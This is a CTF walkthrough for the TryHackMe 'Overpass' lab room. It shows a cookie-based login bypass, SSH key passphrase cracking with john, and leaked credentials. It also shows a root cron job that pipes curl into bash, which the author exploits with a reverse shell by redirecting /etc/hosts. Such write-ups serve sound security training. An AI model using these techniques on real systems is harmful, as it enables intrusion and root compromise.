 ```yaml
---

title: Walkthrough - Overpass
published: true
---
```


What happens when some broke CompSci students make a password manager?

[https://tryhackme.com/room/overpass](https://tryhackme.com/room/overpass)

* * *

## Enumerate

nmap -p- -T4 10.10.198.148 -vvv



* * * 

## Exploit

- Checking the /admin page discovered using dirb we discover inspecting elements and checking login.js that we can set sessiontoken to gain access to this ssh key

![0xskar](/assets/overpass01.png)

- now that we have a user "James" and sshkey we can login to ssh
- save the rsa key and ssh2john and feed to john

```shell
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/overpass]
└─$ john james.john                                                                       
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
james13          (james.rsa)     
1g 0:00:00:00 DONE 1/3 (2022-07-14 13:13) 20.00g/s 103660p/s 103660c/s 103660C/s james.rsarsa13..rsajames.rsa13
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

- ssh in
- cat user and to-do.txt to find hints
- get system password from ov

```shell
james@overpass-prod:~$ /usr/bin/overpass
Welcome to Overpass
Options:
1 Retrieve Password For Service
2 Set or Update Password For Service
3 Delete Password For Service
4 Retrieve All Passwords
5 Exit
Choose an option: 4
System   saydrawnlyingpicture
```

```shell
james@overpass-prod:~$ cat todo.txt 
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```

- check /etc/crontab

```shell
james@overpass-prod:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user command
17 * * * * root    cd / && run-parts --report /etc/cron.hourly
25 6 * * * root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6 * * 7 root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6 1 * * root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

- cronjob curls a script and running it as root we can probably take advantage of this

```shell
james@overpass-prod:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
127.0.0.1 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

- edit with vim and create /downloads/src/buildscript.sh with reverse shell on attacker

![0xskar](/assets/overpass02.png)

* * * 